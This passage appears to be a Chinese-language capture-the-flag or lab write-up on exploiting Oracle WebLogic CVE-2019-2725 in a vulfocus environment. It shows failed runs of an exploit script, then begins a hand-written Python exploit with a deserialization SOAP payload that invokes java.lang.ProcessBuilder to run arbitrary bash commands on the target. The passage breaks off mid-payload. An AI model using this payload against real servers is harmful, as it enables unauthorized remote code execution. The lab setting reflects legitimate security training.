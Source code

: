 - **依赖问题**: urllib3版本兼容性问题，新版本urllib3的导入路径发生了变化
- **解决方案**: 移除SSL警告禁用代码，或使用更简单的手工SOAP攻击方法

**最终解决方案 - 使用简化的手工SOAP攻击**:

由于依赖问题，我们采用最直接的手工SOAP攻击方法，这也是CVE-2019-2725最核心的利用技术。

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import InsecureRequestWarning
ModuleNotFoundError: No module named 'urllib3.packages'
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import Insec
```

##### 2.3 手工构造SOAP攻击

**创建恶意SOAP请求**:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
WebLogic CVE-2019-2725 手工利用脚本
"""

import requests
import base64
import sys

def exploit_cve_2019_2725(target_url, command):
    """
    手工构造CVE-2019-2725攻击载荷
    """
  
    # 恶意SOAP载荷模板
    soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
```